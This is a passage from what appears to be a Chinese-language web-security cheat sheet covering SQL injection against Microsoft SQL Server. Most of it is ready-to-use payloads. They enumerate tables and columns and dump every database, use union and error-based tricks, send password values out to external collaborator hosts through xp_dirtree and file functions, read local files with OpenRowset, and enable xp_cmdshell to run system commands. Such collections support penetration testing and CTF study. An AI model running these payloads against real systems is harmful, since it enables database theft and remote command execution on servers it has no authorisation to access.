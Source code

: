     - `SELECT name FROM sysobjects WHERE xtype='U'`
    - `ID=02';if (select top 1 name from DBname..sysobjects where xtype='U' and name not in ('table1', 'table2'))>0 select 1--`

- 爆column
    - `SELECT table_catalog, table_name, column_name FROM information_schema.columns`
    - `SELECT name FROM syscolumns WHERE id=object_id('news')`
    - `ID=1337';if (select top 1 col_name(object_id('table_name'), i) from sysobjects)>0 select 1--`
    - `SELECT name FROM DBNAME..syscolumns WHERE id=(SELECT id FROM DBNAME..sysobjects WHERE name='TABLENAME')`

- 一次性獲取全部資料
    - `select quotename(name) from master..sysdatabases FOR XML PATH('')`
    - `select concat_ws(0x3a,table_schema,table_name,column_name) from information_schema.columns for json auto`
- Union Based
    - Column 型態必須相同
    - 可用`NULL`來避免
- Error Based
    - 利用型別轉換錯誤
    - `id=1 and user=0`
- Out of Band
    - `declare @p varchar(1024);set @p=(SELECT xxxx);exec('master..xp_dirtree "//'+@p+'.oob.kaibro.tw/a"')`
    - `fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select+pass+from+users+where+id=1)%2b'.064edw6l0h153w39ricodvyzuq0ood.burpcollaborator.net\1.xem',null,null)`
        - Requires VIEW SERVER STATE permission on the server
    - `fn_get_audit_file('\\'%2b(select+pass+from+users+where+id=1)%2b'.x53bct5ize022t26qfblcsxwtnzhn6.burpcollaborator.net\',default,default)`
        - Requires the CONTROL SERVER permission.
    - `fn_trace_gettable('\\'%2b(select pass from users where id=1)%2b'.oob.kaibro.tw',default)`
        - Requires the CONTROL SERVER permission.
- 判斷是否站庫分離
    - 客戶端主機名: `select host_name();`
    - 服務端主機名: `select @@servername;`
    - 兩者不同即站庫分離

- 讀檔
    - `select x from OpenRowset(BULK 'C:\Windows\win.ini',SINGLE_CLOB) R(x)`

- xp_cmdshell
    - 在 MSSQL 2000 默認開啟
    - MSSQL 2005 之後默認關閉
    - 有 sa 權限，可透過 sp_configure 重啟它
    
    ```
    EXEC sp_configure 'show advanced options',1
    RECONFIGURE 
    EXEC sp_configure 'xp_cmdshell',1
    RECONFIGURE
    ```

    - 執行 command
        - `exec xp_cmdshell 'whoami'`
